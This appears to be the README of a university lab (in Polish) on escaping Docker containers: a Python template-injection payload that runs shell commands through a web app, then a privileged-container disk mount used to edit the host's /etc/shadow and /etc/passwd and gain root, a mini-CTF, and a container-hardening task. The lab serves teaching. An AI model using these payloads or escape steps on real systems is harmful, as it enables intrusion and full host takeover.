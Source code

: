 
# Docker-Escape
This project shows vulnerability how to escape from Docker container in which web application is running. <br />

## About
This project was made for academic purposes during one of our courses at the AGH University of Krakow. <br />
We present security issues in Docker. We show vulnerabilities of this software and best practices related to them. Below we also include case-studies showing how to get into the server from the user level of a web application, how to escape from this container and the possibilities that open up to us after such an escape.<br />

  
## Authors:
[Huber Mąka](https://github.com/norka02) <br />
[Karol Makara](https://github.com/KarolMakara) <br />
[Jakub Kowal](https://github.com/jd-kowal) <br />

*** 

# Tasks


## Task 0 - Przygotowanie środowiska
Aby rozpocząć wykonywanie zadań sklonujcie repozytorium. <br />
Będziemy używać Dockera (kontener w kontenerze). Całość jest przygotowana w docker.file. <br />
Następnie wykonaj poniższe komendy. <br />

Build:
```bash: 
docker build -t ubuntu-dind
```

Run:
```bash: 
docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
```

Enter:<br />
```bash: 
docker exec -itu adam ubuntu-dind bash
```

**TIP** - w przypadku problemów -> zrestartuj kontener 

## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
Do następnej czynności będziemy potrzebowali poniższej komendy. <br />

```
"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
```

Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.

**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen()) 

## Task 2 - Docker Escape & Privilege Escalation
**TIP** - proponujemy przejście z wykonywaniem zadań do terminala. <br />
Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />

Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}: 
```
su root
```
Sprawdź listę dostępnych obrazów:
```
docker images
```
Pobierz obraz dockera z repozytorium:
```
docker pull ubuntu
```
<< SS >>
Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
```
docker images
```
Będąc na użytkowniku **adam** uruchom kontener {**DE**}:
```
docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu bash
```
Teraz jesteś wewnątrz swojego kontenera, którego przed chwilą stworzyłeś. Możesz to sprawdzić za pomocą komend ``whoami`` oraz ``hostname``. <br />
Przykładowy ScreenShot znajduje się poniżej.
<< ScreenShot >>
Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />
Następnie stwórz w swoim kontenerze z obrazem ubuntu katalog: <br />
```bash
mkdir -p /mnt/share
```
Oraz podmontuj odpowiednią partycję dysku do tego katalogu np. /dev/sdc: <br />
```bash
mount /dev/sdc /mnt/share
```
Domyślnie polecenie mount nadaje ci prawa do zapisu i odczytu, ale jeśli wystąpiłby przykładowo taki komunikat: <br />
<img> <br />
Zmień partycję dysku. Listę partycji możesz uzyskać za pomocą polecenia: <br />
```bash
lsblk
```
Dzięki podmontowaniu partycji jesteśmy w stanie uzyskać dostep do struktury katalogów hosta. Spróbuj przedostać się do zewnętrznego systemu plików, odnajdź pliki ``/etc/shadow`` oraz ``/etc/passwd`` i usuń w nich elementy odpowiadające za uwierzytelnienie użytkownika root. <br />
Teraz wykonujemy poniższą komendę:
```bash
apt update
```

Musimy zainstalować w kontenerze wybrany przez siebie edytor tekstowy (np. vim, nano). 
```bash
apt install vim
```
Sprawdź czy masz dostęp do struktury katalogów hosta:
```bash
 ls -l /mnt/share 
```
Za pomocą edytora tekstowego otwieramy plik ``/etc/shadow`` oraz ``/etc/passwd``. 
```bash
vim /mnt/share/etc/passwd
```
Trzeba usunąć część wskazującą na obecność hasła root-a w pliku shadow {**PE**}. <br />

<<<<<<<<SSx2>>>>>>>>


<< ScreenShot >>
Wyjdź z kontenera za pomocą ``exit``. <br />
Zmień użytkownika na root-a {**PE**}:
```
su root
```

**Odpowiedź** - wyślij ss potwierdzającego twoje uprawnienia root-a. 

## Task 3 - Mini-CTF
Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />

**Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga. 

## Task 4 - Tworzenie Bezpiecznego Kontenera
Posiadając całą wiedzę zdobytą podczas prezentacji oraz poprzednich tasków zastanów się w jaki sposób możesz zabezpieczyć kontener przed różnymi wektorami ataków. <br />
Stwórz kontener, który spełnia wszystkie best-practice dot. bezpiecznego tworzenia kontenera Dockera. <br />
<br />
**Odpowiedź** - wyślij widoczną komendę, która tworzy **Bezpieczny Kontener**. <br />
